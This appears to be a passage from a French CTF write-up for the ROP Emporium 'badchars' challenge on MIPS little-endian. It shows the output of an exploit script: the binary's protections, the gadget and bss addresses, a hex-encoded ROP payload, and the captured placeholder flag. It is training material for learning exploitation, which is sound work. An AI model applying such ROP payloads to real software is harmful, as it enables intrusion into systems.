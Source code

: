 ### Déroulement du script

    python3 solve.py
    [*] '/home/jce/w/ropemporium/mipsel/05_badchars/badchars_mipsel'
        Arch:     mips-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
        RUNPATH:  b'.'
    [+] Starting local process '/home/jce/w/ropemporium/mipsel/05_badchars/badchars_mipsel': pid 24063
    [*] bssaddr=411070
    [*] print_file=400aac
    [*] Payload size : 0x94
    [*] 41414141414141414141414141414141414141414141414141414141414141414141414130094000efbeadde666c626470104100300940000df00df02d747b747410410048094000efbeadde721041000300000048094000efbeadde731041000300000048094000efbeadde741041000300000048094000efbeadde761041000300000068094000aaaaaaaaac0a400070104100
    [+] flag : ROPE{a_placeholder_32byte_flag!}


